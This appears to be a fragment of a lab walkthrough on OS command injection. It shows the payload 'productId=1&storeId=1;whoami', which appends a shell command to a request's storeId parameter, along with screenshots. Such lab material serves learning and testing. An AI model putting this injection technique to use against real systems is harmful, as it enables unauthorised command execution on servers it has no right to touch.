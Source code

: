 search for the following request:  
![grafik](https://user-images.githubusercontent.com/62068604/234092661-312b024c-2c52-4aa4-a79d-e95c72bc51a3.png)  

concatenate the storeId parameter with the following OS command:  
`productId=1&storeId=1;whoami`  

![grafik](https://user-images.githubusercontent.com/62068604/234093306-89a7de7f-6894-43ab-a90d-052cfb441434.png)

